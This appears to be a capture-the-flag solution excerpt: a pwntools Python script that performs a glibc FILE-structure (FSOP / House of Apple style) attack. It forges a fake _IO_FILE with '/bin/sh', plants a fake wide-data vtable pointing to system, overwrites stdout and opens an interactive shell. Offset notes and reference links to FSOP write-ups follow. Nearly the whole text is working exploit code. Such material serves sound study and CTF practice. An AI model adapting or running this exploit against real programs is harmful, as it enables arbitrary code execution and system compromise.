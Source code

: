 ```python3
payload = b" /bin/sh" # _flags + 4-byte hole
payload += b"\x00"*88 # *_IO_read_ptr -> *_IO_save_end
payload += b"\x00"*8 # *_markers
payload += b"\x00"*8 # *_chain
payload += b"\x00"*4 # _fileno
payload += b"\x00"*4 # _flags2
payload += b"\xff"*8 # _old_offset
payload += b"\x00"*2 # _cur_coloumn
payload += b"\x00"*1 # _vtable_offset
payload += b"\x01"*1 + p32(0x00) # _shortbuf[1] + 4-byte hole
payload += p64(_lock) # *_lock
payload += b"\xff"*8 # _offset
payload += b"\x00"*8 # *_codecvt
payload += p64(buffer) # *_wide_data
payload += b"\x00"*8 # *_freeres_list
payload += b"\x00"*8 # *_freeres_buf
payload += b"\x00"*8 # *__pad5
payload += b"\xff"*4 # _mode
payload += b"\x00"*20 # _unused2[20]
payload += p64(jmp_to) # VTABLE

# every offset is crucial
# key notes for the data in buffer:
# bytes at offset 0, 8, 24 and 48 are for the checks
# offset 40 holds an address that should be writable
# offset 216 holds a pointer to our fake _wide_struct vtable (easier to offset the function that will be called if its behind our buffer)
# offset 54 holds a pointer to the function we will call via fake _wide_struct vtable

p.sendlineafter(b"the buffer\n", p64(0x08) + p64(0x02) + b"a"*8 + p64(0x00) + p64(buffer+112) + b"b"*8 + p64(0x00) + p64(system) + b"c"*160 + p64(buffer-48))
p.sendlineafter(b"addr?\n", hex(stdout-8).encode('utf-8')) 
p.sendlineafter(b"size?\n", f"{len(payload)+8}".encode('utf-8'))
# p.sendlineafter(b"size?\n", f"8")
# ones are not related to the file structure (padding)
p.sendafter(b"data?\n", b"\x01"*7 + payload) 

p.interactive()
```
also some links that helped me make quick sanity checks throughout this:
- https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/
-  https://niftic.ca/posts/fsop/
- https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/EN%20-%20Play%20with%20FILE%20Structure%20-%20Yet%20Another%20Binary%20Exploit%20Technique%20-%20An-Jie%20Yang.pdf
- https://blog.kylebot.net/2022/10/22/angry-FSROP/
	> I really wish to learn angr management...

